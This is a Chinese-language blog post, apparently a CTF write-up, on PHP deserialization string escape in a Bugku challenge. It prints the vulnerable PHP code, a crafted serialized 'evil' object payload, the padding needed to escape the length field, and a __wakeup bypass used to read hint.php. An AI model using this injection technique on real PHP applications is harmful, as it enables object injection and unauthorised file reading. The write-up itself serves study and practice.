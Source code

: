 +++
title = "PHP 反序列化与字符串逃逸"
topics = ["Pentest"]
tags = ["deserialize"]
description = "我的个人博客，主要用于记录自己的一些学习笔记之类的东西，其中有渗透测试、python、php等。"
date = "2021-07-18T17:21:33+08:00"
draft = false
+++

### 0x00 漏洞成因
该漏洞主要是因为序列化的字符串在经过过滤函数不正确的处理而导致对象注入，目前看到都是因为过滤函数放在了 serialize 函数之后

### 0x01 条件
* 相邻两个属性的值是我们可以控制的
* 前一个属性的 s 长度可以发生变化（变长变短都可以）
    * 若变长则可以直接在该属性中注入对象来达到反序列化
    * 若变短则可以吞掉后面相邻属性的值，在后面的属性中注入新的对象

### 0x02 题目
Bugku CTF 的题
```php
<?php
// php版本:5.4.44
header("Content-type: text/html; charset=utf-8");
// highlight_file(__FILE__);

class evil{
    public $hint;
    public function __construct($hint){
        $this->hint = $hint;
    }
    public function __destruct(){
        if($this->hint==="hint.php") {
            @$this->hint = base64_encode(file_get_contents($this->hint)); 
        }
        var_dump($this->hint);
    }
    function __wakeup() { 
        if ($this->hint != "╭(●｀∀´●)╯") { 
            //There's a hint in ./hint.php
            $this->hint = "╰(●’◡’●)╮"; 
        } 
    }
}

class User
{
    public $username;
    public $password;
    public function __construct($username, $password){
        $this->username = $username;
        $this->password = $password;
    }

}

function filter($data){
    $data = str_replace('123', 'abcdef', $data);
    return $data;
}

$username = $_POST['username'];
$password = $_POST['password'];

$a = serialize(new User($username, $password));
if(preg_match('/flag/is', $a))
    die("NoNoNo!");

$w = filter($a);
unserialize($w);
?>
```
### 0x03 分析
* 可以看到我们可以传入 username 和 password 触发 User 类，而我们需要触发 evil 类从而获取 hint.php
* 题目中序列化了 User 类然后结果被方法 write 和 read 处理后再反序列化
* filter 一个是将序列化后的字符串变长的函数
* 我们可以序列化 eval 类并作为参数传入 User，将 eval 当作 User 的一个元素从而触发 eval

### 0x04 获取触发 evil 的序列化字符串
```php
<?php
class evil{
    public $hint;
    public function __construct($hint){
        $this->hint = $hint;
    }
}

var_dump(serialize(new evil("hint.php")));
?>
```
输出 payload：O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}

### 0x05 利用(过滤后变长)
经过 filter 函数后，序列化的字符串中的 123 会被替换为 abcdef，整体来说遇到一个 123 字符串就会变长 3

```php
$a = serialize(new User($username, $password));
if(preg_match('/flag/is', $a))
    die("NoNoNo!");

var_dump($a);
echo "<br>";

$w = filter($a);
var_dump($w);
echo "<br>";

unserialize($w);
```
post username=111&password=222，经过 filter 后输出
```php
O:4:"User":2:{s:8:"username";s:3:"111";s:8:"password";s:3:"222";}
```

可以看出其实可控的是 111 及后面的 222，我们需要将 User 类序列化的字符串想办法构造为

O:4:"User":2:{s:8:"username";s:4:"111";     s:8:"password";<f>序列化后的 evil 字符串</f>;}

当我们传入构造后的序列化 payload 后
![](/img/post/16258097627342.jpg)

上图中，位置 2 在序列化的字符串中其实是 username 的值，是一个字符串，若我们在 1 的位置插入 60 个字符

则 username 的值为我们插入的 60 个字符，而 password 的值则为 payload <f>O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}</f>，后面 3 位置的字符串失效，当反序列化时即可触发 evil，构造后如下图：
![](/img/post/16258101773735.jpg)
将 payload 中 evil 的属性个数改为大于存在的属性个数即可绕过 wakeup，最终得到 hint.php 的内容
![](/img/post/16258103107382.jpg)

### 0x06 延伸(过滤后变短)
更改 filter 函数，经过处理后序列号字符串变短
```php
function filter($data){
    $data = str_replace('abcdef', '123', $data);
    return $data;
}
```
若处理后变短则可以吞掉后面相邻属性的值，所以可以在后面的属性中注入新的对象

前面的属性经过处理后变短，需要我们填充垃圾字符串，使长度和原来相同，就会注入 evil 对象即可
![](/img/post/16258114498309.jpg)

从上图可以看出，输入的字符串被替换为了 123123，但是显示的长度还是 12，位数不对时反序列化就会出错

我们需要把位置 1 的数字和位置 2 的字符串的位数设置为相同，这样反序列化不会出错且位置 3 还会触发 evil

具体如下，可触发 evil 得到 hint.php 中的内容：
![](/img/post/16258119470950.jpg)

<br>
#### Reference(侵删)：
* [https://blog.csdn.net/qq_25755011/article/details/115950424](https://blog.csdn.net/qq_25755011/article/details/115950424?_blank)
* [https://www.cnblogs.com/tr1ple/p/11876441.html](https://www.cnblogs.com/tr1ple/p/11876441.html?_blank)
* [https://cloud.tencent.com/developer/article/1627299](https://cloud.tencent.com/developer/article/1627299?_blank)

